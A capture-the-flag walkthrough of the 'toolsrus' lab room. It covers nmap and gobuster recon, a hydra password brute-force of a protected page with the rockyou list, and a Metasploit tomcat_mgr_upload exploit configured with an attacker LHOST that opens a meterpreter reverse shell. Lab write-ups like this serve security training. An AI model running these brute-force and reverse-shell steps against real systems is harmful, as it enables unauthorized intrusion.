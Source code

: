 # toolsrus




# Recon
Like any other room we'll start with a simple nmap scan.
//nmap -sS -Pn toolsrus.thm





Lets enumerate a little more using nmap again to find out more about what's running on those ports.
nmap -sV -sC -p80,1234,8009,22 toolsrus.thm

From our nmap scan we can see 4 ports open, 22 for SSH, 80 for HTTP (Webserver), 1234 for Apache TomCat, and 8009 for ajp13. 
Lets check out the website and see if we can find anything there.


All we get is a header hinting that there may be other subdomains that are up.
Lets do a Gobuster directory bruteforce to find them.
gobuster dir -u http://toolsrus.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,git,env,sql,zip,tgz,pem,key -t 400


You can see we get a lot of results with Status: 403 meaning we don't have access to them except for /guidelines which is also the answer to our first flag.
Hey <b>bob</b>, did you update that TomCat server?
Visiting http://toolsrus.thm/guidelines we find which is the answer to our second flag asking us whose name we find and it is bob.
For our 3rd flag we can take a look at the only webpage with a Status: 401 meaning its: protected.

Taking a look at that protected page I think we can use hydra here. After some research this is the command we have to use.
hydra -f -vV -l bob -P /usr/share/wordlists/rockyou.txt $toolsrus.thm http-get /protected

After 5 seconds and CPU utilization peaking at a whooping 20% we get our password bubbles.

After getting into /protected we find that the page has moved to another port, after trying a couple times, 1234 is what worked.
Here we find Apache Tomcat/7.0.88.
Lets run Gobuster again but on this port.


Now lets use Nikto.
nikto -host http://toolsrus.thm:1234/manager/html

As you can see the server is using Apache/Coyote/1.1 and there's 5 documentations found by Nikto which is more than enough to find an exploit with Metasploit.
msf console
search tomcat type:exploit
I used Metasploit to look for an exploit and after doing some research online we need to use tomcat_mgr_upload.

exploit/multi/http/tomcat_mgr_upload
info
We can use these 2 commands to select the exploit and understand the payload.

Let's set up the arguments we need.
set RHOSTS <YOUR_TARGET_IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set LHOST <YOUR_ATTACKER_IP>
set LPORT 5771
set TARGET 0
Since it's an Apache server we need to set our target to 0 for Java.
Nice! Now we have a meterpreter reverse shell running let's see who we are and our permissions and get our flag!
